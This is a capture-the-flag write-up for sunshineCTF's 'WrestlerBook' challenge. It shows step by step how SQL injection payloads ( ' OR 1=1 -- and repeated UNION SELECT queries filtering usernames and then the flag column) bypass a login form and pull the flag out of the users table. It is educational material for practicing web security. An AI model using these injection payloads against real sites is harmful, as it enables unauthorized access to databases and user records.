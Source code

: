 ```yaml
---
layout: blogpost
title:  "sunshineCTF - Wrestler Book"
date:   2019-03-31 21:00:00 +2100
categories: ctf
---
```


## Challenge: 
WrestlerBook
## Description: 
"WrestlerBook is the social network for wrestlers, by wrestlers. WrestlerBook is exclusively for wrestlers, so if you didn't get an invite don't even bother trying to view our profile."
<br>
## Solution:
First thing I try on here is a simple ' OR 1=1 -- which gets us into hulk hogan. There is a flag attribute that he doesnt have. After trying a lot of different injections I finally crafted this:<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie') \-\- <br>
which brought us to a new page who is Jim Duggan and who also doesnt have a flag. My guess is we keep adding these users to the list of users we dont want. Maybe we will soon get a user with a flag.<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim') \-\-<br>
next username still no flag: machoasf<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf') \-\-<br>
Another one:milliondollarman<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman') \-\-<br>
'rich_flair'<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') \-\-<br>
'user1': George Steele<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair', 'user1', 'user10', 'user100','user101','user102', 'user103', 'user104', 'user105','user106','user107','user108','user109') \-\- <br>
New idea is to check who isnt in the first set of users and who dont have the name user in their username<br>
' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') AND username NOT LIKE 'user%' \-\-<br>
SELECT * FROM users WHERE username = '' UNION SELECT * FROM users WHERE username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') AND username NOT LIKE 'user%' ' and password = '' OR 1=1 \-\-' <br>
SELECT * FROM users WHERE username = ' <br>
' UNION SELECT * FROM users WHERE username NOT LIKE 'user%' AND username NOT IN ('hulkhogie', 'hacksawjim', 'machoasf', 'milliondollarman', 'rich_flair') ' and password = ''<br>
NOW:
	write query filtering something else than username

' UNION SELECT * FROM users WHERE password LIKE '%sun% '<br>
```After filtering based on ID I notied that the profiles were coming up in the same exact order as they were when I filtered by username which made me realize the other things listed must also be parts of the databse. I reconstructed this query below```

' UNION SELECT * FROM users WHERE flag NOT LIKE 'N%' AND flag NOT LIKE 'ex%' \-\- <br>
FINALLY when using the query above we get:<br>
"Generic Wrestler
Username: user84
Age: 65
Title: N/A
Flag: sun{ju57_4n07h3r_5ql1_ch4ll}"
